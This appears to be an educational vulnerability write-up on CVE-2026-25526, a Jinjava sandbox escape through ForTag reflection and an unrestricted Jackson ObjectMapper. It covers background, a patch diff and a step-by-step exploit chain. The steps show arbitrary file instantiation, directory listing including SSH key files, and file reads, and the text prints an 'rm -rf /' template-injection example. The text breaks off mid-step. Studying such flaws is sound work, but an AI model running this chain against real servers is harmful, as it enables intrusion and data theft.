

This article explores the technical details of CVE-2026-25526, a critical Sandbox Bypass vulnerability affecting HubSpot's [Jinjava](https://github.com/HubSpot/jinjava) template engine. We will deconstruct a logic flaw within the **ForTag** component that allows attackers to evade the security resolver using raw Java Reflection. We will demonstrate how chaining this bypass with an unrestricted Jackson ObjectMapper enables attackers to instantiate arbitrary classes, leading to full file system enumeration and arbitrary file reads. This article is intended for educational purposes to help beginners understand the mechanics of Java sandbox escapes and Server-Side Template Injection (SSTI).

## Table of Contents
{: .no_toc }

* TOC
{:toc}
 
## Introduction   
In February 2026,a critical vulnerability (CVSS 9.8) was disclosed in HubSpot's **Jinjava** template engine - a widely used Java library that renders Jinja2-style templates. The vulnerability, tracked as **CVE-2026-25526** ( [GHSA-gjx9-j8f8-7j74](https://github.com/HubSpot/jinjava/security/advisories/GHSA-gjx9-j8f8-7j74)),allows an attacker who can write templates to bypass the sandbox entirely and read arbitrary files from the server.   

| **Affected Versions** | **Patched Versions** |
|:----------------------|:---------------------|
|   `>= 2.8.0, < 2.8.3` |              `2.8.3` |
|             `< 2.7.6` |              `2.7.6` |

## Background: What You Need to Know First   
Before we dive into the vulnerability,let's build up the foundational knowledge. If you're already familiar with Java internals, feel free to skip ahead to [Setting Up the Lab](#setting-up-the-lab).   
### What is a Template Engine?   
A template engine takes a **template** (a text file with placeholders) and **data** (variables),and combines them to produce output. 
  
```

Template:  "Hello {{ name }}, you have {{ count }} new messages."
Data:      { name: "Alice", count: 5 }
Output:    "Hello Alice, you have 5 new messages."


```

Templates can also contain **logic**—loops,conditionals,filters:   

```jinja

  - {{ item.name }}: ${{ item.price }}


Total items: {{ shopping_list|length }}

```


Template engines are everywhere: web frameworks use them to generate HTML pages,email systems use them for personalized emails,and CMS platforms let users write custom templates for their content.   
### What is Jinjava? 

**Jinja2** is a popular template engine originally written in Python (used by Flask, Django, Ansible, etc.). **Jinjava** is HubSpot's Java port of Jinja2. It implements the same template syntax but runs on the JVM.   
HubSpot uses Jinjava in their CMS platform, where **customers** write custom templates to control how their website content is displayed. This is the critical detail - the template authors are not trusted developers. They are end users.   
At its simplest,Jinjava usage looks like this:   

```java

import com.hubspot.jinjava.Jinjava;
import java.util.Map;

Jinjava jinjava = new Jinjava();
String template = "Hello {{ name }}!";
Map<String, Object> context = Map.of("name", "World");
String output = jinjava.render(template, context);
// output = "Hello World!"


```

### Why Template Engines Need a Sandbox   
Here's the problem. In Java, **every object** has a `getClass()` method. 
From a `Class` object, you can use Java reflection to locate and invoke methods and load arbitrary classes, which is extremely powerful if not restricted by a sandbox.  
```

// This chain starts from ANY Java object and ends with arbitrary command execution:
"hello".getClass()                                    // → Class<String>
       .forName("java.lang.Runtime")                  // → Class<Runtime>
       .getMethod("exec", String.class)               // → Method
       .invoke(
           Runtime.class.getMethod("getRuntime")
                        .invoke(null),                // → Runtime instance
           "whoami"                                    // → command to run
       );


```
If a template engine naively allows accessing any property or method on Java objects,a template author could write:   

```jinja

{{ "hello".class.forName("java.lang.Runtime").getRuntime().exec("rm -rf /") }}

```


And that would execute `rm -rf /` on the server.This is called **Server-Side Template Injection (SSTI)**.   
To prevent this, Jinjava implements a security boundary that restricts what template authors can access(sandbox).    
### Java Beans and Properties — The Reflection Foundation   
This concept is critical to understanding the vulnerability, so let's go deep!
In Java,a **"bean"** is just an object that follows a naming convention: if you have a method called `getName()`,Java considers `name` to be a "property" of that bean.The method `getConfig()` exposes a property called `config`.The method `getClass()` exposes a property called `class`.   
Java provides a built-in API to discover these properties automatically:   
```java

import java.beans.Introspector;
import java.beans.PropertyDescriptor;

// Get all properties of a String object
PropertyDescriptor[] props = Introspector
    .getBeanInfo(String.class)
    .getPropertyDescriptors();

for (PropertyDescriptor prop : props) {
    System.out.println(prop.getName() + " → " + prop.getReadMethod());
}


```
Output:   
```

bytes → public byte[] java.lang.String.getBytes()
class → public final native java.lang.Class java.lang.Object.getClass()
empty → public boolean java.lang.String.isEmpty()


```
Notice that `class` is there. Every Java object has it because `getClass()` is defined on `java.lang.Object`, the root of all Java classes. This is why the sandbox must specifically block access to the `class` property.   
The key thing to understand: `Introspector.getBeanInfo()` returns `PropertyDescriptor` objects,and each has a `getReadMethod()` that returns the actual `java.lang.reflect.Method`.You can then call `method.invoke(object)` to directly invoke that getter - **this is raw Java reflection**,completely bypassing any security layer.   
```java

// This is what the vulnerable ForTag code does:
PropertyDescriptor prop = /* get "class" property */;
Method getter = prop.getReadMethod();    // → Object.getClass()
Object result = getter.invoke(someObj);  // → calls someObj.getClass() directly!
// No security check happens here. It's a raw reflection call.
```
[Reflection](https://www.oracle.com/technical-resources/articles/java/javareflection.html) is a feature that allows a Java program to "look at itself" in the mirror while running. It can examine objects, list their methods, and call them dynamically by name, without knowing what they are beforehand.   
Template engines *must* use reflection. When you write `{{ user.name }}` in a template, the Jinjava engine has no idea what a "User" object is when it's being compiled. It only figures it out when the template actually runs.   
Java provides a standard tool for this called the **Introspector**. It acts as a "scout" that uses reflection to scan a class and discover all its available properties automatically.   
```java
// Raw Java Reflection Logic
BeanInfo info = Introspector.getBeanInfo(user.getClass());
for (PropertyDescriptor pd : info.getPropertyDescriptors()) {
    // This prints "name", "class", "config", etc.
    System.out.println(pd.getName()); 
    
    // This allows you to CALL the getter method directly
    Method getter = pd.getReadMethod();
    getter.invoke(user); 
}
```
`method.invoke(object)` is the command that takes a static reference to a function (a `Method` object) and actually **runs it** against a specific piece of data (the `object`).   
- The code used `Introspector` to find the `getClass()` method.   
- It then called `invoke(interpreter)`.   
- This forced the JVM to run `interpreter.getClass()`, returning the `JinjavaInterpreter` class object.   
   
Because `invoke()` is a low-level Java command, it does not know about Jinjava's "restricted list" or "sandbox." It simply executes whatever it is told to execute, without checking if its actually allowed to do so.   
   
### What is the Expression Language (EL) and EL Resolvers?   
When you write `{{ user.name }}` in a Jinja template,Jinjava doesn't just call `user.getName()` directly. Instead,the expression goes through a pipeline called the **Expression Language (EL)** system.   
Jinjava uses **JUEL** (Java Unified Expression Language) under the hood.The EL system has a chain of **resolvers** - components that know how to look up properties on different types of objects(like a MapELResolver for dictionaries or ListELResolver for arrays).:   
```

When Jinjava evaluates {{ user.name }}:

1. Parse "user.name" into an EL expression
2. Look up "user" from the template context → gets the User object
3. Look up "name" on the User object → goes through the resolver chain:

   CompositeELResolver
     ├── ArrayELResolver        → "Is it an array? No, skip."
     ├── JinjavaListELResolver  → "Is it a List? No, skip."
     ├── TypeConvertingMapELResolver → "Is it a Map? No, skip."
     ├── ResourceBundleELResolver    → "Is it a ResourceBundle? No, skip."
     └── JinjavaBeanELResolver → "It's a bean! Let me look up 'name'."
                                   ↓
                              Check: Is 'name' a restricted property? No.
                              Check: Is 'user' a restricted class? No.
                              OK, call user.getName() and return the result.
                              Check: Is the result a restricted class? No.
                              Return "Alice".


```
`JinjavaBeanELResolver` is where the sandbox lives.It's the last resolver in the chain, and it handles property access on regular Java objects.Before looking up a property or calling a method, it checks three things:   
**Restricted Properties** (blocked property names):   
```java

private static final Set<String> DEFAULT_RESTRICTED_PROPERTIES = Set.of("class");


```
If you try `{{ user.class }}`,the resolver sees `class` is restricted and returns `null`.   
**Restricted Methods** (blocked method names):   
```java

private static final Set<String> DEFAULT_RESTRICTED_METHODS = Set.of(
    "class", "clone", "hashCode", "getClass", "getDeclaringClass",
    "forName", "notify", "notifyAll", "wait"
);


```
If you try `{{ user.getClass() }}`,the resolver sees `getClass` is restricted and throws `MethodNotFoundException`.   
**Restricted Classes** (blocked object types):   
```java

protected boolean isRestrictedClass(Object o) {
    return (
        o.getClass().getPackage().getName().startsWith("java.lang.reflect") ||
        o instanceof Class ||
        o instanceof ClassLoader ||
        o instanceof Thread ||
        o instanceof Method ||
        o instanceof Field ||
        o instanceof Constructor ||
        o instanceof JinjavaInterpreter
    );
}


```
If the object itself is any of these dangerous types,the resolver blocks all access.   
Here's the important part: **this security check only happens when code goes through the EL resolver**. If some other code path accesses properties WITHOUT going through the resolver,the checks are bypassed. That's exactly what the vulnerability is.   
### Jackson ObjectMapper — Why It's Dangerous   
**Jackson** is Java's most popular JSON library.Its central class, `ObjectMapper`, converts between Java objects and JSON:   
```java

ObjectMapper mapper = new ObjectMapper();

// Object → JSON
String json = mapper.writeValueAsString(user);
// json = {"name":"Alice","age":30}

// JSON → Object
User user = mapper.readValue(json, User.class);


```
ObjectMapper has a dangerous feature called [**Default Typing**](https://cowtowncoder.medium.com/jackson-2-10-safe-default-typing-2d018f0ce2ba). When enabled, Jackson embeds class names into JSON and uses them during deserialization:   
```java

mapper.enableDefaultTyping();

// Now serialization includes type info:
// ["java.io.File", "/etc/passwd"]

// And deserialization uses the type from JSON:
Object obj = mapper.readValue(
    "[\"java.io.File\", \"/etc/passwd\"]",
    Object.class
);
// obj is now a java.io.File pointing to /etc/passwd!


```
This means if an attacker can get hold of an `ObjectMapper`, enable default typing, and call `readValue()`,they can **instantiate arbitrary Java classes** with controlled constructor arguments.   
`ObjectMapper`  has a `TypeFactory` which act as a bridge that allows the attacker to convert a simple text string (like "java.io.File") into a complex Java class definition that the ObjectMapper can use. The method `TypeFactory.constructFromCanonical("class.name")`  takes a string representing a class name and returns a JavaType object descriptor.    
Even WITHOUT `enableDefaultTyping`,the `convertValue()` method combined with `TypeFactory.constructFromCanonical()` is dangerous:   
```

// constructFromCanonical takes a CLASS NAME as a STRING
JavaType fileType = mapper.getTypeFactory()
    .constructFromCanonical("java.io.File");

// convertValue creates an instance of that type
File file = mapper.convertValue("/etc/passwd", fileType);
// file is now a java.io.File pointing to /etc/passwd!


```
This is why the patch in v2.8.3 adds all `com.fasterxml.jackson.databind` classes to the restricted class list, which we will see [later](#diffing-the-patch-282-vs-283). An unrestricted `ObjectMapper` is essentially a "create any Java object" gadget.   

## Setting Up the Lab   
### Prerequisites   
- **Java 17+** (JDK, not just JRE)   
- **Apache Maven 3.6+**   
   
Verify your installation:   
```bash

java -version
mvn -version


```
### Download the Source Code   
Download both versions from GitHub for diffing:   
```bash

# Create working directory
mkdir jinjava-rce && cd jinjava-rce

# Download vulnerable version
wget https://github.com/HubSpot/jinjava/archive/refs/tags/jinjava-2.8.2.tar.gz
tar xzf jinjava-2.8.2.tar.gz

# Download patched version
wget https://github.com/HubSpot/jinjava/archive/refs/tags/jinjava-2.8.3.tar.gz
tar xzf jinjava-2.8.3.tar.gz


```
### Create the test environment   
Instead of building the full Jinjava project (which has complex parent POM dependencies),we'll create a small standalone project that pulls Jinjava from Maven Central.   
To get started quickly, I have prepared a complete lab environment with all the necessary dependencies and configuration files.   
Simply clone the repository:   
```
git clone git@github.com:av4nth1ka/jinjava-cve-2026-25526-poc.git jinjava-test
```
This repository includes the pre-configured `pom.xml` (pulling the vulnerable Jinjava 2.8.2) , the `logback.xml` to keep the output clean and the exploit of this CVE.
   
Verify the setup compiles:   
```bash

cd jinjava-test
mvn compile -q
#This will download the dependencies defined in the pom.xml and compile the poc files.

```
### Run the Exploit   
To run the exploit given in the repository, you can use the following command:
   
```bash
mvn exec:java -Dexec.mainClass="ExploitHarness" -q

```
 --- 
## Reading the Advisory   
The advisory ( [GHSA-gjx9-j8f8-7j74](https://github.com/HubSpot/jinjava/security/advisories/GHSA-gjx9-j8f8-7j74)) tells us:   
**Vulnerability Type**: Sandbox Bypass/Remote Code Execution   
**Root Cause** (two parts):   
1. **ForTag Property Access Bypass**: The `ForTag` class does not enforce `JinjavaBeanELResolver` restrictions when iterating over object properties using `Introspector.getBeanInfo()` and invoking getter methods via `PropertyDescriptor.getReadMethod()`   
2. **Restricted Class Instantiation**: The sandbox's type allowlist can be bypassed by using `ObjectMapper` to instantiate classes through JSON deserialization   
   
**Impact**: An attacker can access arbitrary getter methods,instantiate arbitrary Java classes,read files from the server filesystem,and potentially execute arbitrary code.   
**Patched in**: 2.8.3 and 2.7.6   
The key terms to investigate: `ForTag`,`JinjavaBeanELResolver`,`Introspector.getBeanInfo()`,`ObjectMapper`.   
 
## Diffing the Patch: 2.8.2 vs 2.8.3   
Here is the [fix commit](https://github.com/HubSpot/jinjava/commit/3d02e504d8bbb13bf3fe019e9ca7b51dfce7a998).   
Let's find what changed:   
```bash

diff -rq jinjava-jinjava-2.8.2/src jinjava-jinjava-2.8.3/src

```
Many files changed,but the relevant ones are:   
- `ForTag.java` — 1 line changed   
- `JinjavaBeanELResolver.java` — multiple additions   
   
Let's examine each.   
### Patch 1: ForTag.java — The Core Fix (1 line!)   
```bash

diff -u jinjava-jinjava-2.8.2/src/main/java/com/hubspot/jinjava/lib/tag/ForTag.java \
       jinjava-jinjava-2.8.3/src/main/java/com/hubspot/jinjava/lib/tag/ForTag.java


```

```java

-  .put(loopVar, valProp.getReadMethod().invoke(val));
+  .put(loopVar, interpreter.resolveProperty(val, valProp.getName()));


```
**Before (vulnerable)**: `valProp.getReadMethod().invoke(val)` — Raw Java reflection. Gets the getter Method from the PropertyDescriptor and calls it directly. No security checks.   
**After (fixed)**: `interpreter.resolveProperty(val, valProp.getName())` — Routes through the EL resolver chain,which includes `JinjavaBeanELResolver` with all its security checks.   
This is the **entire vulnerability** in one line. The rest are defense-in-depth additions.   
### Patch 2: JinjavaBeanELResolver.java — Defense in Depth   
```java

+import com.fasterxml.jackson.databind.ObjectMapper;

 // Added to restricted methods:
+    .add("readValueAs")

+  private static final String JAVA_LANG_REFLECT_PACKAGE =
+    Method.class.getPackage().getName();
+  private static final String JACKSON_DATABIND_PACKAGE =
+    ObjectMapper.class.getPackage().getName();

 // isRestrictedClass() now also blocks Jackson classes:
-      (o.getClass().getPackage().getName().startsWith("java.lang.reflect"))
+      (oPackage.getName().startsWith(JAVA_LANG_REFLECT_PACKAGE) ||
+        oPackage.getName().startsWith(JACKSON_DATABIND_PACKAGE))


```
The additions:   
1. **`readValueAs` added to restricted methods** — Even if an attacker somehow gets a `JsonParser`, they can't call `readValueAs()`.   
2. **`com.fasterxml.jackson.databind` package added to restricted classes** — Even if an attacker gets an `ObjectMapper` through the EL resolver, all property access and method calls on it are blocked. 

Both are **defense-in-depth** — the ForTag fix alone stops the attack, but these ensure no other path can reach the ObjectMapper.   
   
### Patch 3: New Test Case — The Exploit Pattern   

```java

@Test
public void itUsesJinjavaRestrictedResolverOnReadingLoopVars() {
    String template = """
      {{ class }}""";
    String result = interpreter.render(template);
    assertThat(result).isEqualTo("");
}


```


This test IS the exploit pattern. It confirms that in the vulnerable version, `{{ class }}` inside a ForTag loop over `____int3rpr3t3r____` would leak the Class object. The fix ensures it returns empty.   
## Understanding the Vulnerability   
### The Two Paths Problem   
The vulnerability exists because there are **two different code paths** for accessing properties on Java objects, and only one has security checks:   

```

PATH A — Normal template expressions (SECURED):
  {{ obj.property }}
    → EL Expression evaluation
      → JinjavaBeanELResolver.getValue()
        → Checks: restricted properties? restricted class? restricted result?
          → If all clear: return obj.getProperty()
          → If blocked: return null

PATH B — ForTag multi-variable loop (UNSECURED in 2.8.2):
  
    → ObjectIterator.getLoop(obj)  →  wraps as single-element iterator
      → Introspector.getBeanInfo(obj.getClass())
        → For each PropertyDescriptor:
          → valProp.getReadMethod().invoke(val)  ← RAW REFLECTION, NO CHECKS!


```

The sandbox was designed around Path A.Every normal expression goes through the EL resolver chain. But `ForTag` implemented its own mini-resolver using raw Java reflection,creating a **complete bypass** of the security boundary.   
### When Does the ForTag Bypass Trigger?   
The ForTag code at line 242-253 of `ForTag.java` (v2.8.2) handles multi-variable loops.   
```java
if (Entry.class.isAssignableFrom(val.getClass())) {
              Entry<String, Object> entry = (Entry<String, Object>) val;
              Object entryVal = null;

              if (loopVars.indexOf(loopVar) == 0) {
                entryVal = entry.getKey();
              } else if (loopVars.indexOf(loopVar) == 1) {
                entryVal = entry.getValue();
              }

              interpreter.getContext().put(loopVar, entryVal);
            } else if (List.class.isAssignableFrom(val.getClass())) {
              List<Object> entries = ((PyList) val).toList();
              Object entryVal = null;
              // safety check for size
              if (entries.size() >= loopVarIndex) {
                entryVal = entries.get(loopVarIndex);
              }
              interpreter.getContext().put(loopVar, entryVal);
            } else {
              try {
                PropertyDescriptor[] valProps = Introspector
                  .getBeanInfo(val.getClass())
                  .getPropertyDescriptors();
                for (PropertyDescriptor valProp : valProps) {
                  if (loopVar.equals(valProp.getName())) {
                    interpreter
                      .getContext()
                      .put(loopVar, valProp.getReadMethod().invoke(val));
                    break;
                  }
                }
```

When you write ``,the ForTag needs to extract multiple values from each loop element. It tries three strategies:   
1. If the element is a `Map.Entry` → use `getKey()` and `getValue()`   
2. If the element is a `List` → use index-based access   
3. Otherwise → fall back to **Java bean introspection** (the vulnerable path)   
   
For the introspection fallback to trigger,the object must NOT be a `Map.Entry` or `List`.It must be a plain Java object (a "bean") where `Introspector.getBeanInfo()` can discover properties.   
### What is \_\_\_\_int3rpr3t3r\_\_\_\_?   
Jinjava internally needs access to the interpreter object for evaluating filters,expression tests,and macro functions.It stores the interpreter under the obfuscated variable name `____int3rpr3t3r____` in the EL context:   
```java

// In ExtendedParser.java:
public static final String INTERPRETER = "____int3rpr3t3r____";

// In JinjavaInterpreterResolver.java:
if (ExtendedParser.INTERPRETER.equals(property)) {
    value = interpreter;  // Returns the live JinjavaInterpreter object!
}


```
Normally,accessing this from a template is blocked because `JinjavaInterpreter` is in the restricted class list:   
```java
// In JinjavaELBeanResolver.java
protected boolean isRestrictedClass(Object o) {
    if (o == null) {
      return false;
    }

    return (
      (o.getClass().getPackage() != null &&
        o.getClass().getPackage().getName().startsWith("java.lang.reflect")) ||
      o instanceof Class ||
      o instanceof ClassLoader ||
      o instanceof Thread ||
      o instanceof Method ||
      o instanceof Field ||
      o instanceof Constructor ||
      o instanceof JinjavaInterpreter
    );
  }

```
But through the ForTag bypass,the restricted class check never happens. When iterating over an object that is not a Map or a List (like the `JinjavaInterpreter`  object), the code enters a fallback block that uses Raw Java Reflection directly.   
```java
// Inside ForTag.java (Vulnerable Version 2.8.2)

// ... logic to handle Maps and Lists ...

// FALLBACK: If the object isn't a Map or List (e.g., the Interpreter object)
// The code tries to find properties using standard Java Introspection
BeanInfo beanInfo = Introspector.getBeanInfo(val.getClass());
PropertyDescriptor[] props = beanInfo.getPropertyDescriptors();

for (PropertyDescriptor valProp : props) {
    // ... logic to match variable names ...
    
    // THE VULNERABILITY:
    // It calls the getter method DIRECTLY.
    // There is NO call to 'interpreter.resolveProperty'
    // There is NO call to 'isRestrictedClass'
    Object result = valProp.getReadMethod().invoke(val); 
}
```
### How ObjectIterator Enables the Attack   
When `____int3rpr3t3r____` (the interpreter object) is passed to a `` loop, `ObjectIterator.getLoop()` handles it. The interpreter is not a Collection, Array, Map, Iterable, or Iterator, so it falls through to the catch-all case:   
```java

// ObjectIterator.java, line 66:
return new ForLoop(Iterators.singletonIterator(obj), 1);


```

It wraps the interpreter as a **single-element iterator** with length 1. Here, Jinjava tries to be helpful: if you try to loop over a single object (instead of a list), it automatically treats it as a list containing just that one item `[interpreter]`. This 'helpfulness' allows the ForTag logic to execute on our restricted object.

The ForTag loop body executes exactly once,with `val` set to the interpreter object.Then the Introspector discovers all its bean properties, including `config` (from `getConfig()`) and `class` (from `getClass()`).   
 
## Building the Exploit — Step by Step   
We will walk through the exploit primitives below. If you prefer to run the exploit code, you can find it in my [GitHub repository](https://github.com/av4nth1ka/jinjava-cve-2026-25526-poc) which you cloned while [Setting up the Lab](#setting-up-the-lab).   
Each step below adds a new template and shows its output.You can run any step individually by commenting out the others.   
### Step 0: Basic Template Rendering   
First, prove the setup works:   
```java

Jinjava jinjava = new Jinjava(
    JinjavaConfig.newBuilder()
        .withLegacyOverrides(
            LegacyOverrides.newBuilder()
                .withUsePyishObjectMapper(true)
                .withKeepNullableLoopValues(true)
                .build()
        )
        .build()
);


```
Templates:  
 
```

Template: Hello {{ name }}!
Output:   Hello World!

Template: [{{ item }}]  
Output:   [apple] [banana] [cherry]

Template: {{ name }}={{ age }}  
Output:   Bob=25 Alice=30


```

Basic rendering works.The multi-variable `` loop also works with dictionaries— `people.items()` returns `Map.Entry` pairs,and ForTag destructures them into `name` and `age`.This is the **safe path** (Map.Entry handling).   
### Step 1: The Sandbox Blocks Us (Normal Path)   
Let's try accessing dangerous things through normal template expressions:  
 
```

Template: {{ greeting.class }}
Output:   ''
(BLOCKED — 'class' is a restricted property)

Template: {{ greeting.getClass() }}
Output:   ''
(BLOCKED — 'getClass' is a restricted method)

Template: {{ ____int3rpr3t3r____ }}
Output:   '____int3rpr3t3r____'
(Renders as a string representation, but property access is blocked)

Template: {{ ____int3rpr3t3r____.config }}
Output:   ''
Error:    Cannot resolve property 'config' in 'JinjavaInterpreter@5608103d'
(BLOCKED — JinjavaInterpreter is a restricted class)

Template: {{ ____int3rpr3t3r____.context }}
Output:   ''
Error:    Cannot resolve property 'context' in 'JinjavaInterpreter@1058b86d'
(BLOCKED — same reason)


```


The sandbox works perfectly through the normal EL path.Every attempt to access `.class`, `.getClass()`,or properties on the interpreter is blocked.If this were the only code path,there would be no vulnerability.   
### Step 2: ForTag Bypass — Leaking the Class (The Sandbox Bypass!)   
Now we use the ForTag multi-variable loop to bypass the sandbox: 
  
```

Template: CLASS={{ class }}
Output:   'CLASS=com.hubspot.jinjava.interpret.JinjavaInterpreter'


```

**It worked.** We just leaked the full class name of the interpreter object.   
Let's break down what happened:   
1. `____int3rpr3t3r____` resolves to the `JinjavaInterpreter` object   
2. `ObjectIterator.getLoop()` wraps it as a single-element iterator (it's not a Collection/Map/etc.)   
3. ForTag enters the multi-variable branch ( `loopVars.size() == 2`)   
4. The value ( `val`) is the interpreter — it's not a `Map.Entry` or `List`   
5. ForTag falls through to the **bean introspection** branch   
6. `Introspector.getBeanInfo(JinjavaInterpreter.class)` returns all `PropertyDescriptor` s   
7. For each loop variable, ForTag tries to match it to a property name:   
    - `_` doesn't match any property → skipped (it's a common "ignore" variable name)   
    - `class` matches the `class` property (from `getClass()`)!   
8. ForTag calls `valProp.getReadMethod().invoke(val)` — which is `getClass().invoke(interpreter)`   
9. The result ( `Class<JinjavaInterpreter>`) is placed into the template context   
10. `{{ class }}` renders it as `com.hubspot.jinjava.interpret.JinjavaInterpreter`   
   
The **`class` property, which is blocked through normal expressions, is freely accessible through ForTag!**   
Why does "\_" work as a "skip" variable?Java's `Introspector.getBeanInfo()` won't find a property named "_" because there is no `get_()` method on the interpreter. When ForTag iterates the `PropertyDescriptor[]` array looking for a match it does't find one, so the loop variable stays unset. We use "\_"  as a throwaway variable named to skip over properties we don't need. 

### Step 3: Leaking JinjavaConfig   
Now we know we can extract any bean property from the interpreter. Let's get something more useful—the `config` property (from `getConfig()`):   

```

Template: 
          CHARSET={{ config.charset }}, MAX_OUTPUT={{ config.maxOutputSize }}
          
Output:   'CHARSET=UTF-8, MAX_OUTPUT=0'


```

We now have a reference to the `JinjavaConfig` object. Since `JinjavaConfig` is NOT in the restricted class list, we can freely access ALL its properties through normal `{{ }}` expressions.   

```

Template: 
          RESTRICTED_METHODS={{ config.restrictedMethods }}
          
Output:   'RESTRICTED_METHODS=[]'


```

We can even read the security configuration itself— `restrictedMethods` is empty,meaning no additional method restrictions were configured beyond the defaults.   
### Step 4: Getting the ObjectMapper   
`JinjavaConfig` holds an `ObjectMapper` for internal JSON operations.Let's get it: 
  
```

Template: 
          MAPPER={{ config.objectMapper }}
          
Output:   'MAPPER={}'


```

Now the critical question: is `ObjectMapper` restricted?Let's find out by accessing its properties:   

```

Template: 
          
          DATE_FMT={{ om.dateFormat }}
          
Output:   'DATE_FMT={'colonIncludedInTimeZone': true, 'lenient': true}'


```

**Not restricted!** In v2.8.2, `isRestrictedClass()` only checks for `java.lang.reflect.\*`, `Class`, `ClassLoader`, `Thread`, `Method`, `Field`, `Constructor`,and `JinjavaInterpreter`. The entire `com.fasterxml.jackson.databind` package is missing.   
### Step 5: Calling ObjectMapper Methods   
With an unrestricted `ObjectMapper`,we can call any of its methods:  
 
```

Template: 
          
          JSON={{ om.writeValueAsString({'secret': 'data', 'admin': true}) }}
          
Output:   'JSON={"secret":"data","admin":true}'


```

`writeValueAsString` works.Let's try `readTree` (parses JSON without needing a class argument): 
  
```

Template: 
          
          
          TREE={{ tree }}, KEY={{ tree.get('key') }}, NUM={{ tree.get('num') }}
          
Output:   'TREE={'key': 'value', 'num': 42}, KEY=value, NUM=42'


```

We have full JSON read/write capabilities through the ObjectMapper.   
### Step 6: Arbitrary Type Instantiation   
Now the dangerous part.The `ObjectMapper` has a `TypeFactory` that can create `JavaType` descriptors from **class name strings**:  
 
```

Template: 
          
          
          
          TYPE={{ fileType }}
          
Output:   'TYPE=java.io.File'


```

`TypeFactory.constructFromCanonical('java.io.File')` takes a string and creates a `JavaType` for `java.io.File`.No `Class` object needed—just a string!   
In a Jinjava template, you cannot simply write `new java.io.File("/etc/passwd")`. The template engine syntax does not support the new keyword for arbitrary classes, and the sandbox would block it anyway.
Since we cannot use the new keyword in a template to create files, we use `convertValue()` as a loop-hole. 
So, we can use `convertValue()` to create actual Java objects:   

```

Template: 
          
          
          
          FILE={{ file }}, EXISTS={{ file.exists() }}, CAN_READ={{ file.canRead() }},
          LENGTH={{ file.length() }}
          
Output:   'FILE=/etc/passwd, EXISTS=true, CAN_READ=true, LENGTH=9344'


```

We just created a `java.io.File` object pointing to **`/etc/passwd` and confirmed it exists, is readable, and is 9344 bytes long.**   
How does `convertValue('/etc/passwd', fileType)` create a `File`?Jackson sees:   
- Source: a String `"/etc/passwd"`   
- Target type: `java.io.File`   
- `java.io.File` has a constructor `File(String pathname)`   
- Jackson calls `new File("/etc/passwd")` internally   
   
There's also a second chain using `enableDefaultTyping()`:   

```

Template: 
          
          {{ om.enableDefaultTyping() }}
          
          
          FILE={{ file }}, EXISTS={{ file.exists() }}, LENGTH={{ file.length() }}
          
Output:   '{}FILE=/etc/passwd, EXISTS=true, LENGTH=9344'


```

This chain uses polymorphic deserialization(the data decides the object type.)—the class name ( `java.io.File`) is embedded in the JSON itself.   
Normally, Jackson converts JSON based on what the programmer expects. However, when enableDefaultTyping() is turned on, Jackson allows the JSON data itself to dictate what kind of object gets created.
By formatting our input as an array `['java.io.File', '/etc/passwd']`, we are effectively giving Jackson an instruction:
1. Element 0 (java.io.File): build an object of this specific class.
2. Element 1 (/etc/passwd): the argument to pass into its constructor.

Jackson obeys this blindly, instantiating the File object even though the application never intended to create files here, thereby creating a Java object in memory that points to `/etc/passwd`.
### Step 7: File System Enumeration   
With `java.io.File` objects,we can enumerate the file system:   

```

Template: 
          
          
          
          FILES={{ dir.list() }}
          
Output:   'FILES=['home', 'usr', 'bin', 'sbin', 'etc', 'var', 'Library',
          'System', 'private', 'Users', 'Applications', 'opt', 'dev',
          'Volumes', 'tmp', 'cores']'


```

We can list the root directory.Let's try `/etc`:   
```

Output:   'FILES=['manpaths', 'rc.common', 'auto_master', 'passwd',
          'shadow', 'ssh', 'sudoers', 'hosts', 'master.passwd', ...]'


```
And even check for SSH keys:  
 
```

Template: 
          
          
          
          SSH_DIR={{ ssh.exists() }}, FILES={{ ssh.list() }}
          
Output:   'SSH_DIR=true, FILES=['id_ed25519', 'known_hosts.old',
          'id_ed25519.pub', 'known_hosts']'


```

We can see the SSH key filenames on the server.   
### Step 8: Reading File Contents   
We can create `java.net.URL` objects and open input streams:  
 
```

Template: 
          
          
          
          
          
          CONTENT={{ om.writeValueAsString(bytes) }}
          
Output:   'CONTENT="IyMKIyBIb3N0IERhdGFiYXNlCiMKIyBsb2NhbGhvc3QgaXMgdXNlZCB0byBj
          b25maWd1cmUgdGhlIGxvb3BiYWNrIGludGVyZmFjZQojIHdoZW4gdGhlIHN5c3RlbSBpcyBi
          b290aW5nLiAgRG8gbm90IGNoYW5nZSB0aGlzIGVudHJ5LgojIwoxMjcuMC4wLjEJbG9jYWxo
          b3N0CjI1NS4yNTUuMjU1LjI1NQlicm9hZGNhc3Rob3N0Cjo6MSAgICAgICAgICAgICBsb2Nh
          bGhvc3QK"'


```

That base64 string decodes to:   
```

##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
